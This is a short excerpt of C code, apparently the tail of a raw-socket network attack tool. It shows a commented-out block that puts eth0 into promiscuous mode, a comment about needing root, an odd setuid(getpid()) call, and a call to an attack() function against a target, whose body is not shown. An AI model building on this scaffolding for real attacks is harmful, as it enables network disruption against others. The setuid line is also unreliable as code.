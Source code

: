 ```
		}

		memset(&ifstruct, 0, sizeof(ifstruct));
		strcpy (ifstruct.ifr_name, "eth0");
		if (ioctl (skfd, SIOCGIFFLAGS, &ifstruct) == -1) {
			perror ("iotcl()\n");
			printf ("Fun:%s Line:%d\n", __func__, __LINE__);
			return -1;
		}

		ifstruct.ifr_flags |= IFF_PROMISC;

		if(ioctl(skfd, SIOCSIFFLAGS, &ifstruct) == -1) {
			perror("iotcl()\n");
			printf ("Fun:%s Line:%d\n", __func__, __LINE__);
			return -1;
		} 
	*/
		//因为只有root用户才可以play with raw socket :)
		setuid(getpid());
	//	attack(skfd, &sll, srcport);
		attack(skfd, &target, argv);
	}
```

